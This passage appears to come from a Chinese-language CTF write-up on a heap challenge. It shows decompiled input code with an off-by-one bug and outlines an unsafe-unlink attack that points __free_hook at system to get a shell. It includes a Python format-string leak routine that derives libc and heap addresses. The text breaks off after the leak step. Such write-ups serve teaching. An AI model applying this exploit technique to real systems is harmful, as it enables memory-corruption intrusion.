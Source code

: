
&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;由此可以获得这两个地址；

&ensp;&ensp;&ensp;&ensp;get_input()函数

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;在edit_note()函数中存在get_input()函数；

```C
size_t __fastcall get_input(__int64 a1, int a2)
{
  size_t result; // rax
  signed int v3; // [rsp+10h] [rbp-10h]
  _BYTE *v4; // [rsp+18h] [rbp-8h]

  v3 = 0;
  while ( 1 )
  {
    v4 = (_BYTE *)(v3 + a1);
    result = fread(v4, 1uLL, 1uLL, stdin);
    if ( (signed int)result <= 0 )
      break;
    if ( *v4 == 10 )
    {
      if ( v3 )
      {
        result = v3 + a1;
        *v4 = 0;
        return result;
      }
    }
    else
    {
      result = (unsigned int)++v3;
      if ( a2 + 1 <= (unsigned int)v3 )         // off by one
        return result;
    }
  }
  return result;
}
```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;在`a2+1≤v3`处存在off-by-one漏洞；

## 漏洞利用

&ensp;&ensp;&ensp;&ensp;存在off-by-one漏洞，而且对chunk的大小有具体限制，那么可以利用unsafe unlink attack，调用__free_hook钩子以在free的时候调用system函数，至于`'/bin/sh'`只需要作为一个chunk_content输入就好了；

&ensp;&ensp;&ensp;&ensp;首先泄露关键地址

```Python
def leak():
    p.recvuntil('Enter your name: ')
    p.sendline("%15$p.%19$p")
    __libc_start_main_ret = int(p.recvuntil('840')[-14:],16) 
    __libc_start_main = __libc_start_main_ret - 240
    p.recvuntil("0x")
    
    main_base = int(p.recv()[0:12],16) - 0x116a
    libc_base = __libc_start_main - 0x20750
    heap_ptr = main_base + 0x202060
    __free_hook = libc_base + 0x3c67a8
    system_addr = libc_base + 0x453a0
    log.success('libc_base => ' + hex(libc_base))
    log.success('__libc_start_main_ret=> ' + hex(__libc_start_main_ret))
    log.success('__libc_start_main => ' + hex(__libc_start_main))
    log.success('main_base => ' + hex(main_base))
```